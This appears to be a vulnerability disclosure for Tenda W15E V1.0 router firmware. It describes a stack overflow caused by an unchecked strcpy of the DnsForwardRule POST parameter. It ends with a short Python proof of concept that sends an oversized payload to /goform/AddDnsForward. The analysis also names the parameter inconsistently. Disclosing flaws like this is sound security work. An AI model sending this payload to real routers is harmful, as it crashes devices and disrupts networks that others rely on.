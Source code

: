 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-2722.html

## Affected version

W15EV1.0 V15.11.0.14

## Vulnerability details

The Tenda W15EV1.0 V15.11.0.14 firmware has a stack overflow vulnerability in the `formAddDnsForward` function. The `rules` variable receives the `DnsForwardRule` parameter from a POST request and is passed to function `DnsRulesStore` as `listStr`. 

![image-20240417111829290](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417111829290.png)

In function `DnsRulesStore`, the `listStr` is directly assigned to `inputList`. However, since the user can control the input of `IPMacBindRule`, the statement `strcpy((char *)&inputList, (const char *)listStr);` can cause a buffer overflow. The user-provided `DnsForwardRule` can exceed the capacity of the `inputList` array, triggering this security vulnerability.

![image-20240417111902107](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417111902107.png)

![image-20240417111850969](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417111850969.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/AddDnsForward"
payload = b"a"*2000

data = {
        'DnsForwardRule':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
